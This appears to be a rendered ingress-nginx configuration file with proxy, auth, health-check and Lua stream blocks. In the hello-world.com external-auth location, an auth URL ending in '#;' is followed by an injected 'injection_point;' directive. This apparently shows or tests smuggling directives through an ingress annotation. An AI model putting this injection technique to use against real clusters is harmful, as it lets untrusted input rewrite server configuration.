                                        use_port_in_redirects = false,
                                        global_throttle = { namespace = "", limit = 0, window_size = 0, key = { }, ignored_cidrs = { } },
                                })
                                balancer.rewrite()
                                plugins.run()
                        }

                        # be careful with `access_by_lua_block` and `satisfy any` directives as satisfy any
                        # will always succeed when there's `access_by_lua_block` that does not have any lua code doing `ngx.exit(ngx.DECLINED)`
                        # other authentication method such as basic auth or external auth useless - all requests will be allowed.
                        #access_by_lua_block {
                        #}

                        header_filter_by_lua_block {
                                lua_ingress.header()
                                plugins.run()
                        }

                        body_filter_by_lua_block {
                                plugins.run()
                        }

                        log_by_lua_block {
                                balancer.log()

                                monitor.call()

                                plugins.run()
                        }

                        access_log off;

                        port_in_redirect off;

                        set $balancer_ewma_score -1;
                        set $proxy_upstream_name "upstream-default-backend";
                        set $proxy_host          $proxy_upstream_name;
                        set $pass_access_scheme  $scheme;

                        set $pass_server_port    $server_port;

                        set $best_http_host      $http_host;
                        set $pass_port           $pass_server_port;

                        set $proxy_alternative_upstream_name "";

                        client_max_body_size                    1m;

                        proxy_set_header Host                   $best_http_host;

                        # Pass the extracted client certificate to the backend

                        # Allow websocket connections
                        proxy_set_header                        Upgrade           $http_upgrade;

                        proxy_set_header                        Connection        $connection_upgrade;

                        proxy_set_header X-Request-ID           $req_id;
                        proxy_set_header X-Real-IP              $remote_addr;

                        proxy_set_header X-Forwarded-For        $remote_addr;

                        proxy_set_header X-Forwarded-Host       $best_http_host;
                        proxy_set_header X-Forwarded-Port       $pass_port;
                        proxy_set_header X-Forwarded-Proto      $pass_access_scheme;
                        proxy_set_header X-Forwarded-Scheme     $pass_access_scheme;

                        proxy_set_header X-Scheme               $pass_access_scheme;

                        # Pass the original X-Forwarded-For
                        proxy_set_header X-Original-Forwarded-For $http_x_forwarded_for;

                        # mitigate HTTPoxy Vulnerability
                        # https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/
                        proxy_set_header Proxy                  "";

                        # Custom headers to proxied server

                        proxy_connect_timeout                   5s;
                        proxy_send_timeout                      60s;
                        proxy_read_timeout                      60s;

                        proxy_buffering                         off;
                        proxy_buffer_size                       4k;
                        proxy_buffers                           4 4k;

                        proxy_max_temp_file_size                1024m;

                        proxy_request_buffering                 on;
                        proxy_http_version                      1.1;

                        proxy_cookie_domain                     off;
                        proxy_cookie_path                       off;

                        # In case of errors try the next upstream server before returning an error
                        proxy_next_upstream                     error timeout;
                        proxy_next_upstream_timeout             0;
                        proxy_next_upstream_tries               3;

                        proxy_pass http://upstream_balancer;

                        proxy_redirect                          off;

                }

                # health checks in cloud providers require the use of port 80
                location /healthz {

                        access_log off;
                        return 200;
                }

                # this is required to avoid error if nginx is being monitored
                # with an external software (like sysdig)
                location /nginx_status {

                        allow 127.0.0.1;

                        allow ::1;

                        deny all;

                        access_log off;
                        stub_status on;
                }

        }
        ## end server _

        ## start server hello-world.com
        server {
                server_name hello-world.com ;

                http2 on;

                listen 80  ;
                listen [::]:80  ;
                listen 443  ssl;
                listen [::]:443  ssl;

                set $proxy_upstream_name "-";

                ssl_certificate_by_lua_block {
                        certificate.call()
                }

                location = /_external-auth-Lw-Prefix {
                        internal;

                        access_log off;

                        # Ensure that modsecurity will not run on an internal location as this is not accessible from outside

                        # ngx_auth_request module overrides variables in the parent request,
                        # therefore we have to explicitly set this variable again so that when the parent request
                        # resumes it has the correct value set for this variable so that Lua can pick backend correctly
                        set $proxy_upstream_name "-web-8080";

                        proxy_pass_request_body     off;
                        proxy_set_header            Content-Length          "";
                        proxy_set_header            X-Forwarded-Proto       "";
                        proxy_set_header            X-Request-ID            $req_id;

                        proxy_set_header            Host                    example.com;
                        proxy_set_header            X-Original-URL          $scheme://$http_host$request_uri;
                        proxy_set_header            X-Original-Method       $request_method;
                        proxy_set_header            X-Sent-From             "nginx-ingress-controller";
                        proxy_set_header            X-Real-IP               $remote_addr;

                        proxy_set_header            X-Forwarded-For        $remote_addr;

                        proxy_set_header            X-Auth-Request-Redirect $request_uri;

                        proxy_buffering                         off;

                        proxy_buffer_size                       4k;
                        proxy_buffers                           4 4k;
                        proxy_request_buffering                 on;

                        proxy_ssl_server_name       on;
                        proxy_pass_request_headers  on;

                        client_max_body_size        1m;

                        # Pass the extracted client certificate to the auth provider

                        proxy_http_version 1.1;
                        set $target http://example.com/#;
                        injection_point;

                        proxy_pass $target;
                }

                location / {

                        set $namespace      "";
                        set $ingress_name   "example-ingress";
                        set $service_name   "web";
                        set $service_port   "8080";
                        set $location_path  "/";
                        set $global_rate_limit_exceeding n;

                        rewrite_by_lua_block {
                                lua_ingress.rewrite({
                                        force_ssl_redirect = false,
                                        ssl_redirect = true,
                                        force_no_ssl_redirect = false,
                                        preserve_trailing_slash = false,
                                        use_port_in_redirects = false,
                                        global_throttle = { namespace = "", limit = 0, window_size = 0, key = { }, ignored_cidrs = { } },
                                })
                                balancer.rewrite()
                                plugins.run()
                        }

                        # be careful with `access_by_lua_block` and `satisfy any` directives as satisfy any
                        # will always succeed when there's `access_by_lua_block` that does not have any lua code doing `ngx.exit(ngx.DECLINED)`
                        # other authentication method such as basic auth or external auth useless - all requests will be allowed.
                        #access_by_lua_block {
                        #}

                        header_filter_by_lua_block {
                                lua_ingress.header()
                                plugins.run()
                        }

                        body_filter_by_lua_block {
                                plugins.run()
                        }

                        log_by_lua_block {
                                balancer.log()

                                monitor.call()

                                plugins.run()
                        }

                        port_in_redirect off;

                        set $balancer_ewma_score -1;
                        set $proxy_upstream_name "-web-8080";
                        set $proxy_host          $proxy_upstream_name;
                        set $pass_access_scheme  $scheme;

                        set $pass_server_port    $server_port;

                        set $best_http_host      $http_host;
                        set $pass_port           $pass_server_port;

                        set $proxy_alternative_upstream_name "";

                        # this location requires authentication

                        auth_request        /_external-auth-Lw-Prefix;
                        auth_request_set    $auth_cookie $upstream_http_set_cookie;

                        add_header          Set-Cookie $auth_cookie;

                        client_max_body_size                    1m;

                        proxy_set_header Host                   $best_http_host;

                        # Pass the extracted client certificate to the backend

                        # Allow websocket connections
                        proxy_set_header                        Upgrade           $http_upgrade;

                        proxy_set_header                        Connection        $connection_upgrade;

                        proxy_set_header X-Request-ID           $req_id;
                        proxy_set_header X-Real-IP              $remote_addr;

                        proxy_set_header X-Forwarded-For        $remote_addr;

                        proxy_set_header X-Forwarded-Host       $best_http_host;
                        proxy_set_header X-Forwarded-Port       $pass_port;
                        proxy_set_header X-Forwarded-Proto      $pass_access_scheme;
                        proxy_set_header X-Forwarded-Scheme     $pass_access_scheme;

                        proxy_set_header X-Scheme               $pass_access_scheme;

                        # Pass the original X-Forwarded-For
                        proxy_set_header X-Original-Forwarded-For $http_x_forwarded_for;

                        # mitigate HTTPoxy Vulnerability
                        # https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/
                        proxy_set_header Proxy                  "";

                        # Custom headers to proxied server

                        proxy_connect_timeout                   5s;
                        proxy_send_timeout                      60s;
                        proxy_read_timeout                      60s;

                        proxy_buffering                         off;
                        proxy_buffer_size                       4k;
                        proxy_buffers                           4 4k;

                        proxy_max_temp_file_size                1024m;

                        proxy_request_buffering                 on;
                        proxy_http_version                      1.1;

                        proxy_cookie_domain                     off;
                        proxy_cookie_path                       off;

                        # In case of errors try the next upstream server before returning an error
                        proxy_next_upstream                     error timeout;
                        proxy_next_upstream_timeout             0;
                        proxy_next_upstream_tries               3;

                        proxy_pass http://upstream_balancer;

                        proxy_redirect                          off;

                }

        }
        ## end server hello-world.com

        ## start server hello-world.example
        server {
                server_name hello-world.example ;

                http2 on;

                listen 80  ;
                listen [::]:80  ;
                listen 443  ssl;
                listen [::]:443  ssl;

                set $proxy_upstream_name "-";

                ssl_certificate_by_lua_block {
                        certificate.call()
                }

                location / {

                        set $namespace      "default";
                        set $ingress_name   "example-ingress";
                        set $service_name   "web";
                        set $service_port   "5678";
                        set $location_path  "/";
                        set $global_rate_limit_exceeding n;

                        rewrite_by_lua_block {
                                lua_ingress.rewrite({
                                        force_ssl_redirect = false,
                                        ssl_redirect = true,
                                        force_no_ssl_redirect = false,
                                        preserve_trailing_slash = false,
                                        use_port_in_redirects = false,
                                        global_throttle = { namespace = "", limit = 0, window_size = 0, key = { }, ignored_cidrs = { } },
                                })
                                balancer.rewrite()
                                plugins.run()
                        }

                        # be careful with `access_by_lua_block` and `satisfy any` directives as satisfy any
                        # will always succeed when there's `access_by_lua_block` that does not have any lua code doing `ngx.exit(ngx.DECLINED)`
                        # other authentication method such as basic auth or external auth useless - all requests will be allowed.
                        #access_by_lua_block {
                        #}

                        header_filter_by_lua_block {
                                lua_ingress.header()
                                plugins.run()
                        }

                        body_filter_by_lua_block {
                                plugins.run()
                        }

                        log_by_lua_block {
                                balancer.log()

                                monitor.call()

                                plugins.run()
                        }

                        port_in_redirect off;

                        set $balancer_ewma_score -1;
                        set $proxy_upstream_name "default-web-5678";
                        set $proxy_host          $proxy_upstream_name;
                        set $pass_access_scheme  $scheme;

                        set $pass_server_port    $server_port;

                        set $best_http_host      $http_host;
                        set $pass_port           $pass_server_port;

                        set $proxy_alternative_upstream_name "";

                        client_max_body_size                    1m;

                        proxy_set_header Host                   $best_http_host;

                        # Pass the extracted client certificate to the backend

                        # Allow websocket connections
                        proxy_set_header                        Upgrade           $http_upgrade;

                        proxy_set_header                        Connection        $connection_upgrade;

                        proxy_set_header X-Request-ID           $req_id;
                        proxy_set_header X-Real-IP              $remote_addr;

                        proxy_set_header X-Forwarded-For        $remote_addr;

                        proxy_set_header X-Forwarded-Host       $best_http_host;
                        proxy_set_header X-Forwarded-Port       $pass_port;
                        proxy_set_header X-Forwarded-Proto      $pass_access_scheme;
                        proxy_set_header X-Forwarded-Scheme     $pass_access_scheme;

                        proxy_set_header X-Scheme               $pass_access_scheme;

                        # Pass the original X-Forwarded-For
                        proxy_set_header X-Original-Forwarded-For $http_x_forwarded_for;

                        # mitigate HTTPoxy Vulnerability
                        # https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/
                        proxy_set_header Proxy                  "";

                        # Custom headers to proxied server

                        proxy_connect_timeout                   5s;
                        proxy_send_timeout                      60s;
                        proxy_read_timeout                      60s;

                        proxy_buffering                         off;
                        proxy_buffer_size                       4k;
                        proxy_buffers                           4 4k;

                        proxy_max_temp_file_size                1024m;

                        proxy_request_buffering                 on;
                        proxy_http_version                      1.1;

                        proxy_cookie_domain                     off;
                        proxy_cookie_path                       off;

                        # In case of errors try the next upstream server before returning an error
                        proxy_next_upstream                     error timeout;
                        proxy_next_upstream_timeout             0;
                        proxy_next_upstream_tries               3;

                        proxy_pass http://upstream_balancer;

                        proxy_redirect                          off;

                }

        }
        ## end server hello-world.example

        # backend for when default-backend-service is not configured or it does not have endpoints
        server {
                listen 8181 default_server reuseport backlog=4096;
                listen [::]:8181 default_server reuseport backlog=4096;
                set $proxy_upstream_name "internal";

                access_log off;

                location / {
                        return 404;
                }
        }

        # default server, used for NGINX healthcheck and access to nginx stats
        server {
                # Ensure that modsecurity will not run on an internal location as this is not accessible from outside

                listen 127.0.0.1:10246;
                set $proxy_upstream_name "internal";

                keepalive_timeout 0;
                gzip off;

                access_log off;

                location /healthz {
                        return 200;
                }

                location /is-dynamic-lb-initialized {
                        content_by_lua_block {
                                local configuration = require("configuration")
                                local backend_data = configuration.get_backends_data()
                                if not backend_data then
                                ngx.exit(ngx.HTTP_INTERNAL_SERVER_ERROR)
                                return
                                end

                                ngx.say("OK")
                                ngx.exit(ngx.HTTP_OK)
                        }
                }

                location /nginx_status {
                        stub_status on;
                }

                location /configuration {
                        client_max_body_size                    21M;
                        client_body_buffer_size                 21M;
                        proxy_buffering                         off;

                        content_by_lua_block {
                                configuration.call()
                        }
                }

                location / {
                        content_by_lua_block {
                                ngx.exit(ngx.HTTP_NOT_FOUND)
                        }
                }
        }
}

stream {
        lua_package_path "/etc/nginx/lua/?.lua;/etc/nginx/lua/vendor/?.lua;;";

        lua_shared_dict tcp_udp_configuration_data 5M;

        resolver 10.96.0.10 valid=30s;

        init_by_lua_block {
                collectgarbage("collect")

                -- init modules
                local ok, res

                ok, res = pcall(require, "configuration")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                configuration = res
                end

                ok, res = pcall(require, "tcp_udp_configuration")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                tcp_udp_configuration = res
                tcp_udp_configuration.prohibited_localhost_port = '10246'

                end

                ok, res = pcall(require, "tcp_udp_balancer")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                tcp_udp_balancer = res
                end
        }

        init_worker_by_lua_block {
                tcp_udp_balancer.init_worker()
        }

        lua_add_variable $proxy_upstream_name;

        log_format log_stream '[$remote_addr] [$time_local] $protocol $status $bytes_sent $bytes_received $session_time';

        access_log /var/log/nginx/access.log log_stream ;

        error_log  /var/log/nginx/error.log notice;

        upstream upstream_balancer {
                server 0.0.0.1:1234; # placeholder

                balancer_by_lua_block {
                        tcp_udp_balancer.balance()
                }
        }

        server {
                listen 127.0.0.1:10247;

                access_log off;

                content_by_lua_block {
                        tcp_udp_configuration.call()
                }
        }

        # TCP services

        # UDP services

        # Stream Snippets

}

```

